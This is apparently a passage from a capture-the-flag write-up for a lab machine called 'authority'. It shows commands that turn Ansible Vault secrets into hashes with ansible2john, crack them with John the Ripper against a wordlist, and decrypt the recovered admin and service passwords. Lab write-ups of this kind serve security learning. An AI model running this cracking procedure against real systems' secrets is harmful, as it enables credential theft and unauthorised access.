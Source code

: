The values in the file above are protected with [Ansible Vault](https://docs.ansible.com/ansible/2.8/user_guide/vault.html#variable-level-encryption). The Jumbo John The Ripper repo has a [script](https://github.com/openwall/john/blob/bleeding-jumbo/run/ansible2john.py), `ansible2john.py`.
 The script takes in a file with two lines, the first being the header 
and the second being the hex-encoded values above. I’ll format the three
 protected values into files:

```bash
➜  authority ansible2john ldap_admin_password_vault pwm_admin_login_vault pwm_admin_password_vault > vault_hashes
➜  authority cat vault_hashes 
ldap_admin_password_vault:$ansible$0*0*c08105402f5db77195a13c1087af3e6fb2bdae60473056b5a477731f51502f93*dfd9eec07341bac0e13c62fe1d0a5f7d*d04b50b49aa665c4db73ad5d8804b4b2511c3b15814ebcf2fe98334284203635
pwm_admin_login_vault:$ansible$0*0*2fe48d56e7e16f71c18abd22085f39f4fb11a2b9a456cf4b72ec825fc5b9809d*e041732f9243ba0484f582d9cb20e148*4d1741fd34446a95e647c3fb4a4f9e4400eae9dd25d734abba49403c42bc2cd8
pwm_admin_password_vault:$ansible$0*0*15c849c20c74562a25c925c3e5a4abafd392c77635abc2ddc827ba0a1037e9d5*1dff07007e7a25e438e94de3f3e605e1*66cb125164f19fb8ed22809393b1767055a66deae678f4a8b1f8550905f70da5
```

and boom!!!

```bash
➜  authority john vault_hashes --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (ansible, Ansible Vault [PBKDF2-SHA256 HMAC-256 256/256 AVX2 8x])
Cost 1 (iteration count) is 10000 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
!@#$%^&*         (pwm_admin_password_vault)     
!@#$%^&*         (pwm_admin_login_vault)     
!@#$%^&*         (ldap_admin_password_vault)  
```

now we can decyrpt passwords.

```bash
➜  authority cat pwm_admin_login_vault | ansible-vault decrypt
Vault password: 
Decryption successful
svc_pwm%                                                                                                                                                                                     ➜  authority cat ldap_admin_password_vault | ansible-vault decrypt 
Vault password: 
Decryption successful
DevT3st@123%                                                                                                                                                                                                                                                                                                                                           ➜  authority cat pwm_admin_password_vault | ansible-vault decrypt 
Vault password: 
Decryption successful
pWm_@dm!N_!2
```
